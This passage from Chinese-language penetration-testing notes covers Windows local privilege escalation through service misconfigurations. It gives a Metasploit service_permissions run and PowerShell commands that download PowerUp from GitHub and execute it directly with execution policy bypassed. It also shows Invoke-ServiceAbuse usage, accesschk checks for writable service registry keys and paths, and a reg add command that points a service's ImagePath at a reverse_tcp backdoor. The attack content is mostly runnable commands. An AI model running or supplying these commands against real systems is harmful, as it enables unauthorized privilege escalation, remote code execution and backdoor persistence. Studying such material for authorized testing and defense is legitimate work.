 ```bash
use exploit/windows/local/service_permissions
set AGGRESSIVE true
set session 1
exploit
```

**PowerSploit**

```powershell
powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt

powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'xxxx' -Username user -Password 123456}"
```

- ServiceName：可能存在漏洞的服务
- Path：该服务的可执行程序的路径
- StartName：服务运行账号
- AbuseFunction：利用方式

#### 服务注册表权限脆弱

如果低权限用户对系统服务的注册表具有写入权限，就可以通过修改服务的启动路径进行提权，思路与权限配置错误一直，修改ImagePath

在目标主机执行

```
accesschk.exe /accepteula -uvwqk "xxxxx" HKLM\SYSTEM\CurrentControlSet\Services   ///xxxx为用户名或组
```

![4](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\4.png)

假设当前用户对一个名为aaa的服务具有完全控制权，可以通过修改该服务的ImagePath为我们上传的后门程序

```
reg add HKEY_MACHINE\SYSTEM\CurrentControlSet\Services\aaa /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /k C:\Users\PUblic\reverse_tcp.exe" /f
```

执行命令查看该用户是否具有重启该服务的权限

```
accesschk.exe /accepteula -ucqv "xxxx" aaa
```

如果有重启服务即可，若无尝试重启系统或计算机

#### 服务路径权限可控

如果低权限者对高权限者启动的服务路径具有可写权限，可以通过直接替换启动文件进行提权

执行命令查看对某服务的路径是否有可写权限

```
accesschk.exe /accepteula -quv "C:\Program Files\Insecure Executables\"
```
